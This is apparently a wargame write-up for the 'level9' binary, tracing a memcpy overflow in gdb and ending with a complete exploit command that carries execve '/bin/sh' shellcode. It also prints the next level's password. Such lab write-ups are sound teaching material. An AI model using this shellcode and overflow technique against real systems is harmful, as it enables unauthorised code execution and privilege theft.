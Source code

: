 ## Reverse

We got the bin level9 (see source.c)

There is a memcpy, so we can perform a buffer overflow

## Test the overflow

```sh
(gdb) run `python -c "print('A'*200)"`
Starting program: /home/user/level9/level9 `python -c "print('A'*200)"`

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) info registers
eax            0x41414141       1094795585
ecx            0x41414141       1094795585
edx            0x804a0d4        134521044
ebx            0x804a078        134520952
esp            0xbffff650       0xbffff650
ebp            0xbffff678       0xbffff678
esi            0x0      0
edi            0x0      0
eip            0x8048682        0x8048682 <main+142>
eflags         0x210287 [ CF PF SF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

We seg. fault but there is a problem, we haven't overwrite `eip` but `eax` and `ecx` instead

## Check what we can do with eax an ecx

```sh
(gdb) disas main
Dump of assembler code for function main:
	0x080485f4 <+0>:     push   ebp
	0x080485f5 <+1>:     mov    ebp,esp
	0x080485f7 <+3>:     push   ebx
	0x080485f8 <+4>:     and    esp,0xfffffff0
	0x080485fb <+7>:     sub    esp,0x20
	0x080485fe <+10>:    cmp    DWORD PTR [ebp+0x8],0x1
	0x08048602 <+14>:    jg     0x8048610 <main+28>
	0x08048604 <+16>:    mov    DWORD PTR [esp],0x1
	0x0804860b <+23>:    call   0x80484f0 <_exit@plt>
	0x08048610 <+28>:    mov    DWORD PTR [esp],0x6c
	0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>
	0x0804861c <+40>:    mov    ebx,eax
	0x0804861e <+42>:    mov    DWORD PTR [esp+0x4],0x5
	0x08048626 <+50>:    mov    DWORD PTR [esp],ebx
	0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei>
	0x0804862e <+58>:    mov    DWORD PTR [esp+0x1c],ebx
	0x08048632 <+62>:    mov    DWORD PTR [esp],0x6c
	0x08048639 <+69>:    call   0x8048530 <_Znwj@plt>
	0x0804863e <+74>:    mov    ebx,eax
	0x08048640 <+76>:    mov    DWORD PTR [esp+0x4],0x6
	0x08048648 <+84>:    mov    DWORD PTR [esp],ebx
	0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei>
	0x08048650 <+92>:    mov    DWORD PTR [esp+0x18],ebx
	0x08048654 <+96>:    mov    eax,DWORD PTR [esp+0x1c]
	0x08048658 <+100>:   mov    DWORD PTR [esp+0x14],eax
	0x0804865c <+104>:   mov    eax,DWORD PTR [esp+0x18]
	0x08048660 <+108>:   mov    DWORD PTR [esp+0x10],eax
	0x08048664 <+112>:   mov    eax,DWORD PTR [ebp+0xc]
	0x08048667 <+115>:   add    eax,0x4
	0x0804866a <+118>:   mov    eax,DWORD PTR [eax]
	0x0804866c <+120>:   mov    DWORD PTR [esp+0x4],eax
	0x08048670 <+124>:   mov    eax,DWORD PTR [esp+0x14]
	0x08048674 <+128>:   mov    DWORD PTR [esp],eax
	0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
	0x0804867c <+136>:   mov    eax,DWORD PTR [esp+0x10]
	0x08048680 <+140>:   mov    eax,DWORD PTR [eax]
	=> 0x08048682 <+142>:   mov    edx,DWORD PTR [eax]
	0x08048684 <+144>:   mov    eax,DWORD PTR [esp+0x14]
	0x08048688 <+148>:   mov    DWORD PTR [esp+0x4],eax
	0x0804868c <+152>:   mov    eax,DWORD PTR [esp+0x10]
	0x08048690 <+156>:   mov    DWORD PTR [esp],eax
	0x08048693 <+159>:   call   edx
	0x08048695 <+161>:   mov    ebx,DWORD PTR [ebp-0x4]
	0x08048698 <+164>:   leave
	0x08048699 <+165>:   ret
End of assembler dump.
```

We see that we seg fault at `0x08048682` because we try to 	`dereference eax` that have been overwrite and is equal to `0x41414141`

So we can do something with `eax`

### Check the value of eax

```sh
Starting program: /home/user/level9/level9 $(python -c "print 'BBBB' + 'A' * 104 + 'AAAA'") $(python -c "print '\x90'*1000 + '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'")

Breakpoint 1, 0x0804867c in main ()
(gdb) info registers
eax            0x804a00c        134520844
ecx            0x41414141       1094795585
edx            0x804a07c        134520956
ebx            0x804a078        134520952
esp            0xbffff280       0xbffff280
ebp            0xbffff2a8       0xbffff2a8
esi            0x0      0
edi            0x0      0
eip            0x804867c        0x804867c <main+136>
eflags         0x200283 [ CF SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) x 0x804a00c
0x804a00c:      0x42424242
```

### Check the instructions of eax
```sh
	0x0804867c <+136>:   mov    eax,DWORD PTR [esp+0x10] # eax is the av[1] + offset 0
	0x08048680 <+140>:   mov    eax,DWORD PTR [eax] # eax is the av[1] + offset 108
	0x08048682 <+142>:   mov    edx,DWORD PTR [eax] # set the value of eax in edx
	0x08048684 <+144>:   mov    eax,DWORD PTR [esp+0x14]
	0x08048688 <+148>:   mov    DWORD PTR [esp+0x4],eax
	0x0804868c <+152>:   mov    eax,DWORD PTR [esp+0x10]
	0x08048690 <+156>:   mov    DWORD PTR [esp],eax
	0x08048693 <+159>:   call   edx # call edx so the value of eax
``` 

We set `av[1] + offset 0` at `0xbffff8c4`, the address of `av[2]`

and `av[1] + offset 108` at `0x0804a00c`, the value of `eax` which is the first `eax` (av[2] + offset 0)

So at the call of `edx` at `0x08048693`

- edx == 2nd eax == av[1] + 108 == 1st eax
- call edx == call the value of av[1] + 108 == call eax == value of av[2]

So at the call of the 2nd eax at `0x08048693`, that as been transfered to edx, will call the value of the shellcode `\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80` in av[2] that will be executed

## Exploit

```sh
./level9 $(python -c "print '\xc4\xf8\xff\xbf' + 'A' * 104 + '\x0c\xa0\x04\x08'") $(python -c "print '\x90'*1000 + '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'")
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
